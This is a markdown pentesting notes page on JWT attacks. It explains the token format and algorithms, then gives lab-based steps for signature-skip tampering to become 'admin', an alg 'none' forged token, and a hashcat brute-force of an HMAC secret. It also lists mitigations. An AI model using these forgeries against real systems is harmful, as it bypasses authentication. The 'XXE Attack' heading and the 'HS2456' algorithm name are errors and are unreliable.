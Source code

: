 ```yaml
---
title: JWT attacks
description: Poor implementation of JWT can be used to bypass authentication and access control
---
```

JSON Web Tokens (JWTs) are commonly used for authentication, session management, access control, and securely exchanging data between web applications. They are also widely used in API access, OAuth 2.0 flows, and Single Sign-On (SSO) implementations. However, poor implementation of JWTs can introduce serious security risks and may be exploited to compromise a web application.

Specs define JWT: [RFC7519](https://datatracker.ietf.org/doc/html/rfc7519)
## JWT Format
A JWT consists of three parts, separated by dots:
```css
HEADER.PAYLOAD.SIGNATURE
```
- **HEADER**: Define the type(`typ`) of token and the signing algorithm (`alg`) (e.g. `HS2456`)
- **PAYLOAD**: Contains claims about the user, session, or other data (e.g. `{"user": "user1", "admin": false}`). Common claims:
	- Issuer (iss)
	- Subject (sub)
	- Audience (aud)
	- Expiration time (exp)
	- Not before (nbf)
	- Issued at (iat)
	- JWT ID (jti)
- **SIGNATURE**:  A cryptographic signature that ensures the token hasn't been tampered with.
Each part is Base64URL-encoded (without padding) and concatenated with a dot:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJzdWIiOiJ1c2VyMSIsImFkbWluIjpmYWxzZX0.
X5cBA0klC0df_vxTqM-M1WOUbE8Qzj0Kh3w_N6Y7LkI
```

## JSON Web Algorithms (JWA)
JWT algorithms are defined in[JWA Specifications](https://datatracker.ietf.org/doc/html/rfc7518
Common JWT Signing Algorithms
- **Symmetric algorithms** (HMAC based using a shared secret): `HS256`, `HS384`, `HS512`
- **Asymmetric algorithms** (public/private key): `RS256` (RSA based), `ES256` (Elliptic Curve based), `PS256` (RSA based with MGF1 padding), etc.
- **None**: A non-algorithm that implies no signature (insecure and should never be used)
More algorithms at [RFC 7518](https://datatracker.ietf.org/doc/html/rfc7518#section-3)

Signing a token:
```js
signature = ALGORITHM.Sign(header + "." + payload, key)
```
Verifying a token:
```js
ALGORITHM.Verify(signature, header + "." + payload, key)
```

## XXE Attack
- Signature not verified
- Unsigned JWT
- Weak Signing Key

## Mitigation
- Always use a library’s **verify()** method before accessing claims.
- Never trust the payload until the signature is successfully validated.
- **Explicitly disable the "none" algorithm** in your JWT library configuration.
- Do not rely on defaults, enforce algorithm allowlists like `RS256` or `HS256`.
## Exploit
### Signature not verified
**JWTs are not encrypted by default**, which means their contents can be viewed and even modified by anyone. To ensure the token hasn't been tampered with, applications must validate the signature. However, some applications skip this critical step, allowing attackers to modify the payload and exploit the system with ease.

1. Get a valid JWT token.
2. Decode the Base64URL-decode to see header and payload
3. Make changes to the payload, like changing to a different user. 
```http
{  
    "iss": "portswigger",  
    "exp": 1747553975,  
    "sub": "john"  
}
```
Change user:
```http
{  
    "iss": "portswigger",  
    "exp": 1747553975,  
    "sub": "admin"  
}
```
4. Base64URL-encode the header and payload.
5. Send with original signature, if the application does not verify the signature you'll be authenticated as `admin` user.
### Unsigned JWT
Early versions of many JWT libraries accepted `None` or `none` as a valid option, meaning the token was considered valid **without a signature at all**.
1. Use burpsuite **JSON Web Token** extensions to remove the signature. 

![JSON Web Token](/images/JWT_20250518%20_164907.png)

2. It removes the signature. The header now looks like from this: 
```http
{  
    "typ": "JWT",  
    "alg": "HS256"  
}
```
to this:
```http
{  
    "typ": "JWT",  
    "alg": "none"  
}
```

3. JWT with no signature:
```http
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzU1NDQ3MCwic3ViIjoid2llbmVyIn0.
```
4. Send the token if the application does not reject `"alg": "none"`, it will accept the token as valid.
### Weak signing key
HMAC-based algorithms rely on the strength of the secret key. If the key is weak or easily guessable, an attacker can brute-force it and generate their own valid tokens, effectively bypassing authentication.

Use **hashcat** to try to brute-force the secret key.
```bash
hashcat -a 0 -m 16500 eyJraWQiOiI0ODY2MTZhOC1lM2I0LTQzZWItODQ3Mi04NTc1OTgzNWJhNTkiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzU1NDc1NSwic3ViIjoid2llbmVyIn0._75lGMCWEJRNqs-mH0KCZ4IDodeS3IEQFPhUZOGKDNk rockyou.txt
```

List of known JWT secrets: [wallarm/jwt_secrets](https://github.com/wallarm/jwt-secrets)

Create a new signing key with the cracked secret key.
1. Burp Suite > JWT Editor > New Symmetric Key
2. Specify secret > Generate
3. Go to JSON Web token, change the payload and sign with new key.![JWT Signing Key](/images/JWT_20250518%20_170826.png)
### Algorithm Confusion (RSA to HMAC)
TODO
### Algorithm Confusion (ECDSA to HMAC)
TODO
### `kid` Injection (Key ID Manipulation)
TODO
###  Embedded JWK (CVE-2018-0114)
TODO
### JKU / X5U Header Abuse
TODO
###  CVE-2022-21449 (Psychic Signature)
TODO
## Links
- [The Ultimate Guide to JWT Vulnerabilities and Attacks](https://pentesterlab.com/blog/jwt-vulnerabilities-attacks-guide)
- [JWT Specification](https://datatracker.ietf.org/doc/html/rfc7519)
- [JSON Web algorithms](https://datatracker.ietf.org/doc/html/rfc7518)
- [JSON Web Token (JWT) Signing Algorithms Overview](https://auth0.com/blog/json-web-token-signing-algorithms-overview/)
